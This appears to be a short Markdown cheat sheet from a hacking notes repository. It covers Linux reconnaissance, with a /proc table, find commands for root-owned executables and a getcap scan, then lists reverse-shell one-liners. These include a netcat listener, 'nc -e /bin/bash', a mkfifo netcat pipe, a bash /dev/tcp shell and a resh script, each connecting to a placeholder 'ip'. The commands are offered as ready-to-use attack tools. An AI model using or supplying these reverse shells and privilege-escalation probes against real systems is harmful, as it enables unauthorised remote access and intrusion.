 ### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command
```bash
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

```bash
/sbin/getcap -r *
```

# Reverse Shell
### Server
```bash
nc -lp 4444
```

### reSH
```bash
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```bash
nc ip 4444 -e /bin/bash
```

### Mkfifo
```bash
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Dev 
```bash
bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1'"
```
